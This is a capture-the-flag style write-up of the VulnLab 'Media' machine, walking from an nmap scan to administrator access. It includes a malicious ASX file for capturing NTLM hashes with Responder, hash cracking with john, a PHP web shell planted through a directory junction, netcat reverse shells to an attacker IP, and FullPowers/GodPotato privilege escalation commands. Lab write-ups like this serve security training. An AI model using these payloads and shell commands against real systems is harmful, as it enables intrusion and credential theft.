

# Media

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Media** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80,3389 --min-rate=1000 10.10.102.154
```



Now let’s see the website running on port 80


Now let’s go create malicious asx file 

```bash
<asx version="3.0">
    <title>Leak</title>
    <entry>
        <title></title>
        <ref href="file://10.8.5.233/leak/leak.wma"/>
    </entry>
</asx>
```


Now let’s open responder

```bash
sudo responder -I tun0
```


Now let’s upload the asx file to the web application


Now let’s go back and see if we got a hash


Notice that we got a hash so let’s go and crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Now let’s try login to SSH

```bash
ssh enox@10.10.70.160
```


As we see we logged in!

Now let’s go and see the user flag

```bash
cd C:\Users\enox\Desktop
```


Amazing we got the user flag 🥳

Now let’s navigate to the web directory and see the index.php file

```bash
c:\xampp\htdocs
```


Now let’s save it and analyze it on our machine

```bash
code index.php
```


Now let’s start analysis.


> First the application is initializing the upload directory then it takes the firstname, lastname and email to and make them MD5 hash then create a folder with same name as the MD5 hash
> 

So what we will do as we have a full control of the created directory we will create a Symlink and make it point to the web root and then upload a PHP file that will execute system commands on the machine 

First let’s create our PHP file

```bash
<?php echo system($_REQUEST["cmd"]);?>
```


Now let’s create a fake md5 hash

```bash
import hashlib
print(hashlib.md5(b"remoremoremo@remo.com").hexdigest())
```


Now as we see we got the md5 hash

So let’s go and create a Symlink

```bash
mklink /J C:\Windows\Tasks\Uploads\2307356e83030ada3addf4fcc2e0dafa C:\xampp\htdocs
```


Now let’s go and try to upload the PHP file and intercept the request using BurpSuite


now let’s go back to the xampp directory and check if the PHP file is uploaded

```bash
c:\xampp\htdocs
```


as we see the evil.php file is uploaded 

Now let’s go and execute command 

```bash
whoami
```


Now let’s go and get a revershell

Frist let’s open a listener

```bash
nc -lvnp 1337
```


Now let’s go and execute reverse shell

```bash
c:\temp\nc.exe -nv 10.8.5.233 1337 -e cmd.exe
```


Now let’s go and see if we got a shell


Now let’s go and see our privilegs

```bash
whoami /all
```


> As we see we have no interesting privileges
> 

So let’s go and restore the default privileges 

```bash
FullPowers.exe -c "C:\temp\nc.exe 10.8.5.233 1338 -e cmd" -z 
```


now let’s see if we got a shell


Now let’s see our privileges

```bash
whoami /all
```


Notice that we have impersonation privileges  

so let’s us God Potato to get a reverse shell

```bash
.\gp.exe -cmd "cmd /c c:\temp\nc.exe 10.8.5.233 1337 -e cmd.exe"
```


Now let’s go and see if we got a reverse shell


as we see we got a reverse shell so let’s go to the administrator directory and see the root flag

```bash
cd c:\Users\Administrator\Desktop
```


Amazing we got a reverse shell 🥳


That’s it for the **Media** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT